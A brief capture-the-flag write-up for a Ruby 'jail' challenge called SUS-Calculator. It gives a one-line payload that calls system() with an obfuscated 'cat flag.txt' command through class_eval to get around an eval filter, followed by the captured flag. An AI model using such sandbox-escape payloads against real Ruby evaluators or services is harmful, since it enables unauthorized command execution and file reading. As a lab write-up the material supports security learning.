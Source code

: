 # SUS-Calculator 

Solved by: @vicevirus

- Category: mainstream, introductory, ruby
- Description: no eval==safe

### Solution:

```
system('cat'+32.chr+'flag.txt') class_eval ''

ruby .send > use class_eval method 
```

Flag: `jail{me_when_i_uhhh_escape}`


